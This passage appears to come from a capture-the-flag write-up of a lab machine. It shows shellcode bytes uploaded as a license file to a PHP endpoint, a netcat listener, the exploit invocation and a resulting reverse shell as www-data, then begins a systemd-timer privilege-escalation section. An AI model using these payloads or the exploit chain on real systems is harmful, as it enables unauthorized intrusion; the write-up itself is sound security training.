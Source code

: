 ```python
payload += b"\xef\xff\xff\xff\x48\xbb\xc5\xcb\x5f\x48\x24\x67\xb0"
payload += b"\x4d\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
payload += b"\xaf\xe2\x07\xd1\x4e\x65\xef\x27\xc4\x95\x50\x4d\x6c"
payload += b"\xf0\xf8\xf4\xc7\xcb\x5e\xf3\x2e\x6d\xbe\x29\x94\x83"
payload += b"\xd6\xae\x4e\x77\xea\x27\xef\x93\x50\x4d\x4e\x64\xee"
payload += b"\x05\x3a\x05\x35\x69\x7c\x68\xb5\x38\x33\xa1\x64\x10"
payload += b"\xbd\x2f\x0b\x62\xa7\xa2\x31\x67\x57\x0f\xb0\x1e\x8d"
payload += b"\x42\xb8\x1a\x73\x2f\x39\xab\xca\xce\x5f\x48\x24\x67"
payload += b"\xb0\x4d"

response = requests.post(
    f"http://{args.target_ip}/activate_license.php",
    files={"licensefile": ("tgihf.txt", io.BytesIO(payload), "application/octet-stream")}
)
```

Start a reverse shell listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Put it all together:

```bash
$ python3 exploit.py 10.129.128.14 activate_license1337 libc-2.31.so --binary-base-addr 0x55f68e56d000 --libc-base-addr 0x7f3e90696000 --stack-base-addr 0x7ffc14c54000 --stack-end-addr 0x7ffc14c75000
```

Receive a reverse shell as `www-data`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.100] from (UNKNOWN) [10.129.128.14] 33002
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## `systemd` Timer & Symbolic Link Privilege Escalation

`website_backup.timer` is a non-standard `systemd` timer.

```bash
www-data@retired:/var/www$ systemctl list-timers --all
NEXT                        LEFT          LAST                        PASSED              UNIT                         ACTIVATES
Tue 2022-04-12 21:13:00 UTC 50s left      Tue 2022-04-12 21:12:03 UTC 5s ago              website_backup.timer         website_backup.service
Tue 2022-04-12 21:16:48 UTC 4min 39s left n/a                         n/a                 systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Tue 2022-04-12 21:39:00 UTC 26min left    Tue 2022-04-12 21:09:03 UTC 3min 5s ago         phpsessionclean.timer        phpsessionclean.service
Tue 2022-04-12 22:13:52 UTC 1h 1min left  Mon 2022-03-28 11:12:56 UTC 2 weeks 1 days ago  fstrim.timer                 fstrim.service
Wed 2022-04-13 00:00:00 UTC 2h 47min left Tue 2022-04-12 21:01:53 UTC 10min ago           logrotate.timer              logrotate.service
Wed 2022-04-13 00:00:00 UTC 2h 47min left Tue 2022-04-12 21:01:53 UTC 10min ago           man-db.timer                 man-db.service
Wed 2022-04-13 06:30:02 UTC 9h left       Tue 2022-04-12 21:03:43 UTC 8min ago            apt-daily-upgrade.timer      apt-daily-upgrade.service
Wed 2022-04-13 06:53:08 UTC 9h left       Fri 2022-03-11 15:32:28 UTC 1 months 1 days ago apt-daily.timer              apt-daily.service
Sun 2022-04-17 03:10:43 UTC 4 days left   Tue 2022-04-12 21:02:32 UTC 9min ago            e2scrub_all.timer            e2scrub_all.service
```